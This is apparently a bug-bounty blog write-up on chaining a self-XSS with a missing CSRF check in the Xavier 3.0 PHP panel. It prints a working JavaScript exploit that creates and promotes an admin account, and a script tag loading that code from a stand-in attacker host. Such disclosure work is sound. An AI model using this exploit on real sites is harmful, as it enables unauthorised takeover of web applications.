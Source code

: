 ```yaml
---
layout: post
title:	"Xavier 3.0 PHP Management Panel CSRF to XSS to Application Takeover"
date:	2019-07-22 03:00:00
categories:
    - notes
tags:
    - bug_hunting
    - bug_writeup
---
```

<head>
	<title> Xavier 3.0 PHP Management Panel CSRF to XSS to Application Takeover </title>
</head>


# i. Introduction
While hunting around on the application, I found a section where you can create users. After playing around, I noticed that when the registration would fail due to errors in the form such as a invalid username, too short password, etc, the username that you were trying to register would reflect on the error page.

![Screenshot]({{ site.baseurl }}/images/posts/2017/xavier/fail.png)

I then tried adding an XSS payload to see if the parameter would be sanitized in anyway. To my surprise, the parameter was not sanitized and I was able to trigger an XSS. 

![Screenshot]({{ site.baseurl }}/images/posts/2017/xavier/xss.png)

However, this would be considered to be a `Self-XSS` which has very low impact as it requires social engineering in order to remotely exploit.


# ii. Chaining CSRF with XSS

Feeling a little defeated, I thought of some ways I could leverage this XSS into something bigger. While doing some more testing, I noticed that the endpoint which is responsible for creating the user did not have any CSRF protection. This gave me an idea to try to chain xyzxyzxyz

Here is an example of how the request looks like:

![Screenshot]({{ site.baseurl }}/images/posts/2017/xavier/csrf-payload.png)

~~~
Payload Used: <script>alert(1)</script>
~~~

After converting the request to a CSRF proof of concept, I put it to test:


![Screenshot]({{ site.baseurl }}/images/posts/2017/xavier/csrf.gif)

It works, now we are able to remotely exploit a Self-XSS!

Do we stop here? No.


# iii. Application Takeover

Now that we are able to remotely exploit an XSS, what would be the impact? The obvious answer that comes to people's minds is stealing the session. However the application developers were one step ahead, and set the cookies to HTTPOnly. 

![Screenshot]({{ site.baseurl }}/images/posts/2017/xavier/cookies.png)

The way that the application flow works when creating a new user is:
1. Register a new user
2. Find the user in the user list, click their name to edit their profile
3. Click the "promote to admin" button

If you are thinking, if we have a CSRF, why go through all the trouble of having to execute Javascript. Well according to the application flow, with a CSRF we would only be able to create a registered user. A registered user has the same privileges, if I would've registered on the application myself. Furthermore the endpoint which is in charge of elevating the user's privileges has CSRF protection.

With that in mind, I set off to find a way to be able to takeover the application chaining these two bugs.

I then wrote simple Javascript, when called will create a new user and then promote the user. This is able to bypass SOP, as the request will be executing from the application. Furthermore this is also able to bypass the CSRF protection when promoting a user to the administrator as we can create an XMLHTTPRequest to parse the CSRF token and then include it with our subsequent request.

If you host the following Javascript on your site:
~~~
var root = "";
var req = new XMLHttpRequest();
var url = root + "/xavier-demo/admin/includes/adminprocess.php";
var params = "user=Hackerman&firstname=Hackerman&lastname=Hackerman&pass=P4ssw0rd&conf_pass=P4ssw0rd& email=Hackerman%40Superman.com&conf_email=Hackerman%40Superman.com&form_submission=admin_registration";
req.open("POST", url, true);
req.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
req.send(params);
var url2 = root + "/xavier-demo/admin/adminuseredit.php?usertoedit=Hackerman";
var regex = /delete-user" value="([^"]*?)"/g;
var req2 = new XMLHttpRequest();
req2.open("GET", url2, false);
req2.send();
var nonce = regex.exec(req2.responseText);
var nonce = nonce[1];
var url3 = root + "/xavier-demo/admin/includes/adminprocess.php";
var params2 = "delete-user="+nonce+"&form_submission=delete_user&usertoedit=Hackerman&button=Promotetoadmin";
req2.open("POST", url3, true);
req2.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
req2.send(params2);
~~~

This will create a user with the username Hackerman, password: P4ssw0rd with Administrator privileges.

Then use a payload such as:
~~~
<script src="https://your-site.com/xavier.js"></script>
~~~

Create a CSRF Poc which will look similar to:
![Screenshot]({{ site.baseurl }}/images/posts/2017/xavier/csrf2.png)

End result:
![Screenshot]({{ site.baseurl }}/images/posts/2017/xavier/takeover.gif)


So essentially with a Self-XSS and some creative thinking we were able to takeover an application. 


# iv. Conclusion

As always, thank you for reading.

\- mqt

Sources:
~~~
test
~~~

